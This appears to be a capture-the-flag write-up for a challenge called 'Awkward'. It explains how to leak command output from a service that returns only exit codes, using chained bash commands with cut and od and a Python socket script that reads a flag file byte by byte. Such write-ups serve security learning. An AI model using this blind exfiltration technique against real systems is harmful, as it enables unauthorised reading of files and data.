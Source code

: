 # Awkward

When we connect, if we try to enter anything, it sends {number}..well this is awkward..

This reminded me of a TAMU ctf chall I did long ago, there you could send commands but you only got the exit codes. Typing stuff like "llgltltltl" gave an output of 127, which is the command not found exit code. I tried "ls", and this gave 0 - indicating that these were probably exit codes. The key was to somehow communicate information via exit codes and exit codes alone.

With a combination of bash commands, we can accomplish this.

Firstly, var1=$\(command\). Simple, just sets a variable to the output of this command.

Exit codes can be between 0 and 255. This is enough to communicate one byte at a time.

var2=$\(echo $var1 \| cut -c number\) this will grab a certain character of var1 using the bash command cut, and store it in var2.

Finally, exit $\(echo -n $var2 \| od -An -tuC\) - echo -n $var2 \| od -An -tuC will grab the ascii value of the character that var2 represents, plocking exit before this means that the output of this command chain will become the argument for exit, communicating our character via the exit code.

I wrote a simple loop to automate this and get the full output of a command.

```python
import socket
import re
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('jh2i.com',50025))
def getcmdoutput(cmd):
    global s
    s.send(cmd.encode() + b'\n')
    output = s.recv(1024).decode()
    code = re.findall("(.*)... Well this is awkward...",output)[0]
    return int(code)
base = "cat this_is_where_the_flag_is_plz_dont_bruteforce/flag.txt"
output = ""
for i in range(60):
    command = "var1=$({});var2=$(echo $var1 | cut -c {});exit $(echo -n $var2 | od -An -tuC)"
    command = command.format(base,i + 1)
    exitcode = getcmdoutput(command)
    print(command)
    output += chr(exitcode)
    print(output)
```

## Flag: flag{okay\_well\_this\_is\_even\_more\_awkward}


